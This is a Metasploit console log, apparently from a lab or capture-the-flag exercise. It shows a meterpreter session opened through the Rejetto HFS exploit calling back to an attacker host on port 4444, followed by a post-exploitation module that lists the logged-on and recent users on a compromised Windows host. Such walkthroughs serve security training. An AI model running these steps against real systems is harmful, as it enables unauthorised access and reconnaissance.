 ```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/http/rejetto_hfs_exec) > search logged_on

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/windows/gather/enum_logged_on_users                   normal  No     Windows Gather Logged On User Enumeration (Registry)


msf5 exploit(windows/http/rejetto_hfs_exec) > use 0
msf5 post(windows/gather/enum_logged_on_users) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.2:4444 -> 10.0.19.183:49400 (10.0.19.183)

msf5 post(windows/gather/enum_logged_on_users) > show options

Module options (post/windows/gather/enum_logged_on_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently logged on users
   RECENT   true             yes       Enumerate Recently logged on users
   SESSION                   yes       The session to run this module on.

msf5 post(windows/gather/enum_logged_on_users) > set SESSION 1
SESSION => 1
msf5 post(windows/gather/enum_logged_on_users) > run

[*] Running against session 1

Current Logged Users
====================

 SID                                            User
 ---                                            ----
 S-1-5-21-2563855374-3215282501-1490390052-500  WIN-OMCNBKR66MN\Administrator


[+] Results saved in: /root/.msf4/loot/20230531073753_default_10.0.19.183_host.users.activ_803977.txt

Recently Logged Users
=====================

 SID                                            Profile Path
 ---                                            ------------
 S-1-5-18                                       %systemroot%\system32\config\systemprofile
 S-1-5-19                                       C:\Windows\ServiceProfiles\LocalService
 S-1-5-20                                       C:\Windows\ServiceProfiles\NetworkService
 S-1-5-21-2563855374-3215282501-1490390052-500  C:\Users\Administrator


[*] Post module execution completed
```